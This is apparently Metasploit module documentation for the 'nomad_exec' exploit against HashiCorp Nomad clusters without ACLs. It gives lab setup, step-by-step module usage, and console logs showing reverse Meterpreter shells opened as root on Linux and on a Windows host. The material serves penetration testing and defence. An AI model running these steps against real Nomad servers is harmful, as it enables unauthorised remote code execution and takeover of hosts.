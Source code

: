 ### Description

HashiCorp Nomad allows for clients to create jobs that can run in a Nomad cluster. Nomad provides a variety of drivers to allow for tasks to be run under. The 'raw_exec' and 'exec' drivers allow for OS commands to be run on a Nomad client. The 'raw_exec' option runs with higher privileges, while 'exec' is typically limited to lower privileges.

The API operates similarly to HashiCorp's Consul service, by allowing optional ACL tokens as an authentication mechanism. This is not enabled by default.

### Test Setup

First install Nomad (https://www.nomadproject.io/downloads)

```
curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
sudo apt-get update && sudo apt-get install nomad -y
```

Start Nomad

```
sudo nomad agent -dev -bind 0.0.0.0 -log-level INFO
```

Nomad should start up like the following:

```
==> No configuration files loaded
==> Starting Nomad agent...
==> Nomad agent configuration:

       Advertise Addrs: HTTP: 192.168.1.2:4646; RPC: 192.168.1.2:4647; Serf: 192.168.1.2:4648
            Bind Addrs: HTTP: 0.0.0.0:4646; RPC: 0.0.0.0:4647; Serf: 0.0.0.0:4648
                Client: true
             Log Level: INFO
                Region: global (DC: dc1)
                Server: true
               Version: 1.0.5

==> Nomad agent started! Log data will stream in below:

    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=docker type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=raw_exec type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=exec type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=qemu type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=java type=driver plugin_version=0.1.0
    2021-05-18T09:51:21.880-0500 [INFO]  agent: detected plugin: name=nvidia-gpu type=device plugin_version=0.1.0
    2021-05-18T09:51:21.894-0500 [INFO]  nomad.raft: initial configuration: index=1 servers="[{Suffrage:Voter ID:192.168.1.2:4647 Address:192.168.1.2:4647}]"
    2021-05-18T09:51:21.894-0500 [INFO]  nomad.raft: entering follower state: follower="Node at 192.168.1.2:4647 [Follower]" leader=
    2021-05-18T09:51:21.898-0500 [INFO]  nomad: serf: EventMemberJoin: nomad.global 192.168.1.2
    2021-05-18T09:51:21.898-0500 [INFO]  nomad: starting scheduling worker(s): num_workers=8 schedulers=[service, batch, system, _core]
    2021-05-18T09:51:21.900-0500 [INFO]  nomad: adding server: server="nomad.global (Addr: 192.168.1.2:4647) (DC: dc1)"
    2021-05-18T09:51:21.918-0500 [INFO]  client: using state directory: state_dir=/tmp/NomadClient084393005
    2021-05-18T09:51:21.918-0500 [INFO]  client: using alloc directory: alloc_dir=/tmp/NomadClient993736104
    2021-05-18T09:51:21.922-0500 [INFO]  client.fingerprint_mgr.cgroup: cgroups are available
    2021-05-18T09:51:23.045-0500 [WARN]  nomad.raft: heartbeat timeout reached, starting election: last-leader=
    2021-05-18T09:51:23.045-0500 [INFO]  nomad.raft: entering candidate state: node="Node at 192.168.1.2:4647 [Candidate]" term=2
    2021-05-18T09:51:23.045-0500 [INFO]  nomad.raft: election won: tally=1
    2021-05-18T09:51:23.045-0500 [INFO]  nomad.raft: entering leader state: leader="Node at 192.168.1.2:4647 [Leader]"
    2021-05-18T09:51:23.045-0500 [INFO]  nomad: cluster leadership acquired
    2021-05-18T09:51:23.052-0500 [INFO]  nomad.core: established cluster id: cluster_id=3266f8d4-f93b-0491-f352-b508401faeb7 create_time=1621349483050579397
    2021-05-18T09:51:28.066-0500 [INFO]  client.plugin: starting plugin manager: plugin-type=csi
    2021-05-18T09:51:28.066-0500 [INFO]  client.plugin: starting plugin manager: plugin-type=driver
    2021-05-18T09:51:28.066-0500 [INFO]  client.plugin: starting plugin manager: plugin-type=device
    2021-05-18T09:51:33.588-0500 [INFO]  client: started client: node_id=4b972587-fc0c-3937-29db-318433d0135a
    2021-05-18T09:51:33.606-0500 [INFO]  client: node registration complete
    2021-05-18T09:51:34.608-0500 [INFO]  client: node registration complete
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/nomad_exec`
  4. Do: `set RHOST 192.168.1.2`
  5. Do: `set RPORT 4646`
  6. Do: `check`. The target should show as vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST eth0` (Attacker's default NIC)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

```
msf > use exploit/multi/misc/nomad_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/nomad_exec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(multi/misc/nomad_exec) > set RPORT 4646
RPORT => 4646
msf exploit(multi/misc/nomad_exec) > check
[+] 192.168.1.2:4646 - The target is vulnerable.
msf exploit(multi/misc/nomad_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/nomad_exec) > set LHOST eth0
LHOST => eth0
msf exploit(multi/misc/nomad_exec) > run

[*] Started reverse TCP handler on 192.168.1.3:4444 
[*] Creating job 'RjLhSsR'
[*] Job 'RjLhSsR' successfully created as '9ea94eb3-5a63-d9e2-dd36-3375ee301d5d'.
[*] Waiting for job 'RjLhSsR' to trigger
[*] Sending stage (984904 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:53978) at 2021-05-18 10:01:00 -0500
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : 192.168.1.2
OS           : Ubuntu 18.04 (Linux 4.15.0-128-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: root @ nomad (uid=0, gid=0, euid=0, egid=0)

```

### Reverse shell on Windows host

```
msf > use exploit/multi/misc/nomad_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/misc/nomad_exec) > set RHOSTS 192.168.1.4
RHOSTS => 192.168.1.4
msf exploit(multi/misc/nomad_exec) > set RPORT 4646
RPORT => 4646
msf exploit(multi/misc/nomad_exec) > set TARGET Windows 
TARGET => Windows
msf exploit(multi/misc/nomad_exec) > check
[+] 192.168.1.4:4646 - The target is vulnerable.
msf exploit(multi/misc/nomad_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/misc/nomad_exec) > set LHOST eth0
LHOST => eth0
msf exploit(multi/misc/nomad_exec) > run

[*] Started reverse TCP handler on 192.168.1.3:4444 
[*] Using URL: http://0.0.0.0:8080/7xalf9984X4by
[*] Local IP: http://192.168.1.3:8080/7xalf9984X4by
[*] Creating job 'WgsLus'
[*] Job 'WgsLus' successfully created as 'fba1132d-c381-3945-e5e4-5e7ebdd24aa5'.
[*] Waiting for job 'WgsLus' to trigger
[*] Client 192.168.1.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.610) requested /7xalf9984X4by
[*] Sending payload to 192.168.1.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.610)
[*] Sending stage (175174 bytes) to 192.168.1.4
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:52922) at 2021-05-18 10:08:23 -0500
[*] Command Stager progress - 100.00% done (151/151 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : DESKTOP-1CE7MB4
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

```
